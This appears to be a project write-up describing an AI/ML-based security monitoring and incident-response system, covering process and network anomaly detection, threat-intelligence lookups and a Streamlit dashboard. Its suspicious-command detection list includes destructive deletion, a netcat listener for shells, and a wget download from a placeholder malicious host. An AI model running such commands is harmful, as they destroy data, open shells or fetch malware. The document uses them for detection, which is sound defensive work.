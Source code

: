 AI-Driven Cybersecurity Monitoring & Incident Response System (IRM) - Detailed Technical Breakdown
1. System Overview
AI/ML-based IRM (Incident Response Management) system is a real-time cybersecurity monitoring framework that collects, analyzes, and responds to threats across a Linux (Ubuntu) to Windows infrastructure. It replaces traditional rule-based SIEM (Security Information and Event Management) with behavioral anomaly detection, threat intelligence correlation, and automated response mechanisms.

Key Innovations:
✅ AI/ML-Powered Anomaly Detection – Uses Isolation Forest & One-Class SVM to detect deviations from normal behavior
✅ False Positive Reduction – Unlike signature-based IDS, it analyzes process behavior, network patterns, and command execution
✅ Threat Intelligence Integration – Correlates internal events with AbuseIPDB, VirusTotal, and OSINT feeds
✅ Automated Incident Response – Kills malicious processes, generates alerts, and provides forensic reports
✅ Interactive Dashboard (Streamlit) – Visualizes security data for real-time decision-making

2. System Architecture
2.1. Infrastructure Components
Component	Role	Technologies Used
Ubuntu VM (Client)	Data Collection	Python, psutil, systemd
Windows VM (Server)	Data Processing & AI Analysis	Python, SQLite, Scikit-learn
Network Communication	Secure Data Transfer	TCP Sockets (Ports 5050 & 5400)
Dashboard	Visualization & Alerts	Streamlit, Plotly, Pandas

**2.2. Data Flow**
Ubuntu VM (Client-Side)

Collects process metrics (CPU, memory, commands)

Monitors network connections (TCP flags, ports, IPs)

Logs suspicious commands (e.g., rm -rf, chmod 777)

Tracks cron jobs (malicious persistence checks)

Sends data to Windows VM via TCP sockets

Windows VM (Server-Side)

Receives logs via Python socket server

Stores data in SQLite database (process_monitoring.db)

Runs AI/ML models (Isolation Forest, SVM) for anomaly detection

Generates real-time alerts & automated responses

Streamlit Dashboard

Displays process behavior, network threats, and incident reports

Allows manual process termination & threat intelligence lookups

Generates PDF/HTML reports for forensic analysis

3. Key Features & Implementation Details
3.1. Real-Time Process Monitoring
Data Collected:

PID, CPU%, MEM%, User, Command, Runtime

Parent-Child Process Relationships (Detects process injection)

Anomaly Detection:

Trains Isolation Forest on normal process behavior

Flags deviations (e.g., unexpected CPU spikes, hidden processes)

Automated Response:

Kills processes exceeding CPU/MEM thresholds

Whitelists critical system processes

3.2. Network Traffic Analysis
Captures:

Source/Destination IPs & Ports

TCP Flags (SYN, ACK, RST) to detect scans/DDoS

GeoIP Lookup (Identifies suspicious countries)

Threat Detection:

Port Scanning Detection (Multiple SYN requests)

C2 (Command & Control) Beaconing (Regular outbound connections)

Data Exfiltration (Unusual large data transfers)

3.3. Suspicious Command Detection
High-Risk Commands Flagged:

rm -rf / (Forced deletion)

chmod 777 (Permission escalation)

nc -lvp 4444 (Reverse shell)

wget http://malicious.com/script.sh (Malware download)

Scoring System:

0-100 Risk Score (Commands above 70 trigger alerts)

3.4. Cron Job Monitoring
Detects:

Unauthorized cron jobs (Persistence mechanisms)

Malicious scripts (e.g., cryptocurrency miners)

Visualization:

Timeline of cron executions

User-based filtering (Find jobs by root vs. normal users)

3.5. Threat Intelligence Integration
IP Reputation Checks:

AbuseIPDB (Reports malicious IPs)

VirusTotal (Checks for malware associations)

GreyNoise (Identifies scanners/bots)

Dashboard Features:

IP Threat Score (0-100)

Geolocation Map (Visualizes attack origins)

3.6. Automated Incident Response
Process Termination:

kill -9 [PID] for high-risk processes

Verification (Checks if process was successfully killed)

Alerting:

Email reports (PDF/HTML)

Streamlit dashboard alerts (Color-coded by severity)

4. AI/ML Implementation
4.1. Anomaly Detection Models
Model	Use Case	Training Data
Isolation Forest	Detects unusual process behavior	CPU%, MEM%, Runtime
One-Class SVM	Identifies rare command executions	Command frequency, user patterns
Clustering (K-Means)	Groups similar network events	Source IP, destination port
4.2. Feature Engineering
Process Features:

CPU/MEM ratios

Command entropy (Randomness = possible malware)

Parent-child process anomalies

Network Features:

SYN/ACK ratio (Port scan detection)

Geolocation risk score

Time-Based Features:

Hourly process execution patterns

Weekend vs. weekday activity

5. Streamlit Dashboard Features
5.1. Real-Time Visualizations
Process Monitoring:

CPU/MEM trends (Line charts)

Anomaly score distribution (Histograms)

Network Analysis:

Top source/destination IPs (Bar charts)

TCP flag breakdown (Pie charts)

Threat Intel:

IP reputation lookup (Interactive tables)

5.2. Interactive Controls
Time Range Selector (1h to 72h)

Detection Sensitivity Slider (1-10)

Manual Process Killer (Terminate by PID)

Report Generator (PDF/HTML export)

6. Future Enhancements
🔹 Integrate with SIEM (Splunk, ELK Stack)
🔹 Deploy on cloud (AWS/GCP) for scalability
🔹 Add YARA rules for malware detection
🔹 Implement MITRE ATT&CK mapping

Conclusion
Your AI-driven IRM system successfully replaces traditional rule-based monitoring with behavioral anomaly detection, automated response, and threat intelligence. It provides:
✔ Lower false positives than signature-based tools
✔ Real-time attack detection (Process hijacking, C2, data exfiltration)
✔ Automated incident response (Process killing, alerting)
✔ Forensic-ready reports (PDF/HTML + email alerts)

This framework is production-ready and can be extended for enterprise SOC (Security Operations Center) deployment. 🚀
